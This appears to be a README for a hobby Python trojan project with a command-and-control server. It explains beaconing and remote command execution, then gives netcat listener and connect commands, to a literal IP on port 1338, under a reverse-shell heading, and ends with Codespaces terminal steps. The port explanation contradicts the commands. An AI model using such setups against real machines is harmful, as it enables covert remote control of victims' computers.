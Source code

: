 ## A simple implementation of a trojan malware in python with a C2 ( command and control ) server

```mermaid
graph LR
    C2(C2 Server)
    M(Malware)
    T(Trojan)
    C2 -- Commands --> M
    M -- Data --> C2
    M -- Infects --> T
    T -- Data --> M
```

A Command and Control (C2) server communicates with malware typically over a network using various protocols such as HTTP, HTTPS, TCP, UDP, or even DNS. The specific method of communication can vary greatly depending on the design of the malware and the C2 server.

Here's a simplified explanation of how a C2 server might send commands to malware:

The malware, once installed on a victim's machine, will attempt to establish a connection with the C2 server. This is often done at regular intervals, a behavior known as "beaconing".

The C2 server, upon receiving a connection from the malware, can send commands back to the malware. These commands are often encoded or encrypted in some way to avoid detection.

The malware receives the commands from the C2 server and decodes or decrypts them.

The malware then executes the commands on the victim's machine. This could involve actions like downloading additional malware, stealing data, or modifying system settings.

The results of the command execution (such as stolen data) may then be sent back to the C2 server by the malware.

# Reverse Shell to server

## Linux Server (<SERVER_IP>)

```bash
sudo apt update
sudo apt install netcat
```

Start a netcat listener on port `1338`:

`nc -lvnp 1338`

This command tells netcat to listen (-l) on port 1337, -v makes the operation more talkative (verbose), -n skips DNS name resolution, and -p specifies the port.

## On the macOS Client

`nc 172.191.13.20 1338`

This command tells `netcat` to connect to the server at IP address `SERVER_IP` on port `1338`.

# Accessing a Terminal in a GitHub Code Space via VS Code

Codespaces do not support reverse shell proxy.

Here's how you can access the integrated terminal in Visual Studio Code:

1. Open Visual Studio Code.
1. Connect to your Codespace. You can do this by clicking on the green "Codespaces" button in the lower left corner, then selecting your Codespace from the list.
1. Once you're connected to your Codespace, you can open the integrated terminal by selecting 
1. "Terminal" > "New Terminal" from the menu, or by pressing `Ctrl+`` (backtick) on your keyboard.